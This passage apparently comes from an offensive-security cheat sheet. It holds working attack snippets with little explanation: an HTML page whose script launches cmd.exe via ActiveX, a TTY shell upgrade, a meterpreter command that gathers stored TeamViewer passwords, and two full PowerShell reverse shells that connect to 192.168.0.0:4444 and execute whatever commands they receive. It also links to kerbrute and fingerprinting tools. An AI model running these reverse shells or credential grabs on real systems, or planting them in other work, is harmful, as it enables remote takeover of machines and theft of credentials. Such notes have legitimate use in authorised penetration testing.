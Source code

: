 ```markup
<html>
    <body>
        <script>
            var c= 'cmd.exe'
            new ActiveXObject('WScript.Shell').Run(c);
        </script>
    </body>
</html>
```

### Fingerprinting Client-Side Victim

[https://github.com/fingerprintjs/fingerprintjs2](https://github.com/fingerprintjs/fingerprintjs2)

### Scan Security Headers

[https://securityheaders.com/](https://securityheaders.com/)

### PowerShell to retrieve Active Directory objects \(including deleted\)

`Get-ADObject`

### mysql command line alternative

```bash
mysqldump
```

### TTY Shell that works almost every time on Linux

```bash
/usr/bin/script -qc /bin/bash /dev/null
```

### Kerberos check for valid usernames or bruteforce user/pass with kerbrute

[https://github.com/TarlogicSecurity/kerbrute](https://github.com/TarlogicSecurity/kerbrute)

### TeamViewer Privilege Escalation -&gt; CVE-2019-189888

```text
meterpreter &gt; run post/windows/gather/credentials/teamviewer\_passwords
```

### PowerShell Reverse Shell

```text
$client = New-Object System.Net.Sockets.TCPClient\('192.168.0.0',4444\);$stream = $client.GetStream\(\);\[byte\[\]\]$bytes = 0..65535\|%{0};while\(\($i = $stream.Read\($bytes, 0, $bytes.Length\)\) -ne 0\){;$data = \(New-Object -TypeName System.Text.ASCIIEncoding\).GetString\($bytes,0, $i\);$sendback = \(iex $data 2&gt;&1 \| Out-String \);$sendback2 = $sendback + 'PS ' + \(pwd\).Path + '&gt; ';$sendbyte = \(\[text.encoding\]::ASCII\).GetBytes\($sendback2\);$stream.Write\($sendbyte,0,$sendbyte.Length\);$stream.Flush\(\)};$client.Close\(\)

$sm=\(New-Object Net.Sockets.TCPClient\('192.168.0.0',4444\)\).GetStream\(\);\[byte\[\]\]$bt=0..65535\|%{0};while\(\($i=$sm.Read\($bt,0,$bt.Length\)\) -ne 0\){;$d=\(New-Object Text.ASCIIEncoding\).GetString\($bt,0,$i\);$st=\(\[text.encoding\]::ASCII\).GetBytes\(\(iex $d 2&gt;&1\)\);$sm.Write\($st,0,$st.Length\)}
```
